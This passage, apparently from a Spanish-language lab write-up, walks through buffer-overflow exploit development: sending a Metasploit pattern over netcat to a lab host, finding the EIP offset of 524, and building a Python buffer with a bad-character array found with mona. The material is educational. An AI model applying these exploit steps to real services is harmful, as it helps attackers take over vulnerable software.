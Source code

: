 ### Getting the offset
Se procede a generar y a enviar un patrón de `msf-pattern_create` con una longitud de 888 caracteres. Una vez enviado se calcula el offset con el valor que se sobreescribe en el EIP y se concluye con un valor de 524, el valor exacto antes de empezar a sobreescribir el EIP.

```bash
python2.7 -c "print('$(msf-pattern_create -l 888)')" | nc 192.168.1.88 6812
^C

msf-pattern_offset -l 888 -q 35724134
[*] Exact match at offset 524
```

Algo que no se añadió en la entrada anterior fue el descartar los badchars.

¿Badchars?

Debido a cómo se programan las aplicaciones y cómo funcionan, a veces no toman ciertos bytes de manera amigable. Por ejemplo, un byte NULL (\x00) de forma predeterminada corta las conexiones. Para encontrar los badchars se genera un array de bad-chars con mona y se añade al script en Python.

```bash
!mona bytearray
```

El payload de este script llevará 4 'B's antes de los badchars y una cola de 'C's para ver con claridad en que punto empiezan y acaban los badchars.

```python
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = "A"*524  + "B" * 4 + badchars + "C" * (888 - 524 - 4 - len(badchars))
```
